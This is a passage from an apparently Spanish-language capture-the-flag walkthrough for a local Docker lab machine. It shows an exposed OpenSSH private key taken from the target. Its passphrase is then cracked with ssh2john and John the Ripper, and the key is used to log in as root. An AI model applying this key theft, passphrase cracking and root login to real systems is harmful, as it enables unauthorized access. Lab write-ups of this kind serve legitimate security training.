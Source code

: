    ```bash
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
vEACJSQrQKz9mWnewtRP5pzZk=
-----END OPENSSH PRIVATE KEY-----

verde@9864c56671be:/var$ 

```

Intentamos acceder con ella y nos dice que necesitamos la passphrase , así que usamos **john** para intentar sacar la passphrase y luego usarla:

   ```bash

└─# ssh2john id_rsa > id_john
                                                                                                                                                      

└─# john id_john --show
id_rsa:honda1
1 password hash cracked, 0 left

ssh root@172.17.0.2 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux 9864c56671be 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 22 10:36:51 2024 from 172.17.0.1
   ```